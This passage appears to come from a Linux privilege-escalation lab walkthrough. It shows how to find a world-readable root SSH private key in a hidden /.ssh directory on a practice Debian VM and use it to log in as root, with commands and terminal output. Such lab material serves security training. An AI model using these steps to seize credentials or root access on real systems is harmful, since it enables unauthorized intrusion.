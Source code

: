 Sometimes users make backups of important files but fail to secure them with the correct permissions.

Look for hidden files & directories in the system root:
```
ls -la /
```
Note that there appears to be a hidden directory called .ssh. View the contents of the directory:
```
ls -l /.ssh
```
```
user@debian:~$ ls -l /.ssh
total 4
-rw-r--r-- 1 root root 1679 Aug 25  2019 root_key
```
Note that there is a world-readable file called root_key. Further inspection of this file should indicate it is a private SSH key. The name of the file suggests it is for the root user.

Copy the key over to your Kali box (it's easier to just view the contents of the root_key file and copy/paste the key) and give it the correct permissions, otherwise your SSH client will refuse to use it:
```
chmod 600 root_key
```

Use the key to login to the Debian VM as the root account (note that due to the age of the box, some additional settings are required when using SSH):
```
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.34.1
```
```
root@ip-10-10-91-58:~# chmod 600 root_key 
root@ip-10-10-91-58:~# ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.34.1
Linux debian 2.6.32-5-amd64 #1 SMP Tue May 13 16:34:35 UTC 2014 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Aug 25 14:02:49 2019 from 192.168.1.2
root@debian:~# 
```